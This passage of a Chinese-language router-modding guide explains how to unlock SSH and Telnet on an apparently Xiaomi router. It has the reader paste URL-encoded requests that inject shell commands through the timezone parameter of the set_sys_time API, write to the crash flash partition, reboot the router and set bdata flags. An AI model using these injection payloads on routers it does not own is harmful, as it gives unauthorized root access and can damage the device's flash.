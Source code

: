 ### 6. WinSCP
官方下载：<https://winscp.net/eng/downloads.php>
- 注：中文绿色版请下载打包文件

下载 WinSCP-xxx-Portable.zip 文件

## 二、 解锁 SSH
### 1. 复制 stok 值
进入路由器管理页面 http://192.168.31.1，登录后复制地址栏中的 stok 值  
<img src="/assets/img/pin/copy-stok.png" alt="复制 stok 值" width="60%" />

### 2. 开启调试模式
将复制的 stok 值替换如下网址的 `{stok}` 并访问：

```text
http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20zz%3D%24%28dd%20if%3D%2Fdev%2Fzero%20bs%3D1%20count%3D2%202%3E%2Fdev%2Fnull%29%20%3B%20printf%20%27%A5%5A%25c%25c%27%20%24zz%20%24zz%20%7C%20mtd%20write%20-%20crash%20%3B%20
```

网页内容显示 `{"code":0}` 表示成功开启调试模式

### 3. 通过浏览器请求重启路由器
继续将复制的 stok 值替换如下网址的 `{stok}` 并访问：

```text
http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
```

网页内容显示 `{"code":0}`，此时路由器会重启

### 4. 再次复制 stok 值
重启完成后进入路由器管理页面并登录，再次复制 stok 值

### 5. 设置 Bdata 永久开启 Telnet
将复制的 stok 值替换如下网址的 `{stok}` 并访问：

```text
http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20set%20uart_en%3D1%20%3B%20bdata%20commit%20%3B%20
```
